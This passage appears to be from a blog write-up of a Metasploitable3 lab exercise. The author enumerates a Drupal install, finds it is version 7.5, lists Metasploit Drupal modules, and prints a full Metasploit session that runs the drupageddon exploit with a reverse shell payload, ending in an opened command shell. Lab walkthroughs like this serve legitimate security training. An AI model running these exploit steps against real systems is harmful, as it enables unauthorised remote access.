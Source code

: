 {% include figure.html path="blog/posts/metasploitable3/port80.png" alt="Directory listing of Apache on port 80" %}

I found the presence of Drupal to be interesting. This was a technology that I had barely used and was interested to investigate further. A quick exploit search in the Metasploit Framework revealed a few exploits available to target Drupal. Additionally, the `searchsploit` listed even more, usually with a specific version that was vulnerable.

```
auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Drupal OpenID External Entity Injection
auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Drupal Views Module Users Enumeration
exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Drupal CODER Module Remote Command Execution
exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Drupal RESTWS Module Remote PHP Code Execution
exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution
```

I started by having a look over the source code for the Drupal website. I noticed some information about the website structure and different subdirectories that all originated from the Drupal folder in the `/var/www/html/drupal` directory. 

{% include figure.html path="blog/posts/metasploitable3/drupal-source-code.png" alt="Insight into the Drupal directory structure" %}

I wanted to know the specific Drupal version that was running on the Metasploitable3 server. After a few Google searches and some skim-reading. I discovered a file named `blog.info` in the `drupal/modules/blog` directory that stored version information. 

{% include figure.html path="blog/posts/metasploitable3/drupal-directory-listing.png" alt="Drupal directory listing" %}

Opening the file revealed the installed version of Drupal was 7.5.

{% include figure.html path="blog/posts/metasploitable3/drupal-version.png" alt="Drupal version" %}

From here, I investigated some exploits and started testing them out against Metasploitable3.
I was specifically selecting any exploits for version 7.5 but was having no luck. In the end, I discovered the `drupal_drupageddon` exploit which was successful against the Drupal install on Metasploitable3.

```
msf > use exploit/multi/http/drupal_drupageddon

msf exploit(multi/http/drupal_drupageddon) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(multi/http/drupal_drupageddon) > set targeturi /drupal/
targeturi => /drupal/

msf exploit(multi/http/drupal_drupageddon) > set payload php/reverse_perl 
payload => php/reverse_perl

msf exploit(multi/http/drupal_drupageddon) > exploit

[*] Started reverse TCP handler on 192.168.19.10:4444 
[*] Command shell session 6 opened (192.168.19.10:4444 -> 192.168.19.20:47667) at 2018-07-08 00:06:22 -0400
```
